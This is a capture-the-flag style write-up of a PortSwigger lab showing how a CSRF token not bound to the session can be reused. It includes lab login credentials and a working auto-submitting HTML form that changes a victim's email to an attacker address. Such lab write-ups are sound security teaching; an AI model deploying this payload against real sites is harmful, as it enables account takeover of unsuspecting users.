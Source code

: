 # CSRF where token is not tied to user session | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session), you'll learn: CSRF where token is not tied to user session! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

-   `wiener:peter`
-   `carlos:montoya`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010423.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010530.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010537.png)

**In previous labs, we found that there is a email change functionality is vulnerable to CSRF, and it uses tokens to try to prevent CSRF attacks.**

**Let's inspect that form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="z9ku0XSiD7dC99MaTq7GgUQExcKRjCw1">
    <button class='button' type='submit'> Update email </button>
</form>
```

**Now, let's login as user `carlos` to see the CSRF token:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010932.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010946.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215010954.png)

**Inspect the form again:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="02hQ8SHZTM6kWtull9XPktNIi3ixZI6b">
    <button class='button' type='submit'> Update email </button>
</form>
```

**Hmm... What if I use user `wiener` CSRF token in user `carlos`??**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011218.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011235.png)

It still works!

**Armed with above information, we can go to `exploit server`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011301.png)

**Then craft a form with user `carlos` CSRF token that performs CSRF attack:**
```html
<html>
	<head>
		<title>CSRF-4</title>
	</head>
	<body>
		<form action="https://0a75005103f31b2bc05213ae00f10011.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
			<input required type="hidden" name="csrf" value="02hQ8SHZTM6kWtull9XPktNIi3ixZI6b">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011712.png)

**Now, we can verify is it working or not in the `View exploit` button:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011722.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011732.png)

It works! 

**To change a user's email, we can grab a fresh CSRF token: `<input required type="hidden" name="csrf" value="7IfuZMECjozwHi0b4FO2UbczV8ACEX26">`**

**Then update the old CSRF token in our exploit:**
```html
<html>
	<head>
		<title>CSRF-4</title>
	</head>
	<body>
		<form action="https://0a75005103f31b2bc05213ae00f10011.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
			<input required type="hidden" name="csrf" value="7IfuZMECjozwHi0b4FO2UbczV8ACEX26">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

**Finally, click `Deliver exploit to victim` button:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011850.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-4/images/Pasted%20image%2020221215011916.png)

We've changed the victim's email address!

# What we've learned:

1. CSRF where token is not tied to user session